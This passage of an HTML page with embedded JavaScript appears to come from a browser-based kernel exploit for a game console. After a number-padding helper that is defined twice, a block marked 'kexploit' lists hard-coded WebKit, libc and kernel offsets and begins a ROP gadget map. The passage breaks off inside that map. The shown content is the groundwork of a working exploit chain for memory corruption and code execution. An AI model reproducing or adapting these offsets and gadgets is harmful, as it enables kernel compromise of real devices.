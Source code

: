                return hi_str + lo_str;
            }
        
            return this;
        }
        
        function zeroFill(number, width) {
            width -= number.toString().length;
        
            if (width > 0) {
                return new Array(width + (/\./.test(number) ? 2 : 1)).join('0') + number;
            }
        
            return number + ""; // always return a string
        }
        
        function zeroFill(number, width) {
            width -= number.toString().length;
        
            if (width > 0) {
                return new Array(width + (/\./.test(number) ? 2 : 1)).join('0') + number;
            }
        
            return number + ""; // always return a string
        }
    </script>
    <!--kexploit-->
    <script>
        var chain;
        var kchain;
        var kchain2;
        var SAVED_KERNEL_STACK_PTR;
        var KERNEL_BASE_PTR;    
        var webKitBase;
        var webKitRequirementBase;    
        var libSceLibcInternalBase;
        var libKernelBase;    
        var textArea = document.createElement("textarea");    
        const OFFSET_wk_vtable_first_element = 0x104F110;
        const OFFSET_WK_memset_import = 0x000002A8;
        const OFFSET_WK___stack_chk_fail_import = 0x00000178;
        const OFFSET_WK_psl_builtin_import = 0xD68;    
        const OFFSET_WKR_psl_builtin = 0x33BA0;    
        const OFFSET_WK_setjmp_gadget_one = 0x0106ACF7;
        const OFFSET_WK_setjmp_gadget_two = 0x01ECE1D3;
        const OFFSET_WK_longjmp_gadget_one = 0x0106ACF7;
        const OFFSET_WK_longjmp_gadget_two = 0x01ECE1D3;    
        const OFFSET_libcint_memset = 0x0004F810;
        const OFFSET_libcint_setjmp = 0x000BB5BC;
        const OFFSET_libcint_longjmp = 0x000BB616;    
        const OFFSET_WK2_TLS_IMAGE = 0x38e8020;        
        const OFFSET_lk___stack_chk_fail = 0x0001FF60;
        const OFFSET_lk_pthread_create = 0x00025510;
        const OFFSET_lk_pthread_join = 0x0000AFA0;    
        var nogc = [];
        var syscalls = {};
        var gadgets = {};
        var wk_gadgetmap = {
            "ret": 0x32,
            "pop rdi": 0x319690,
            "pop rsi": 0x1F4D6,
            "pop rdx": 0x986C,
            "pop rcx": 0x657B7,
            "pop r8": 0xAFAA71,
            "pop r9": 0x422571,
            "pop rax": 0x51A12,
            "pop rsp": 0x4E293,    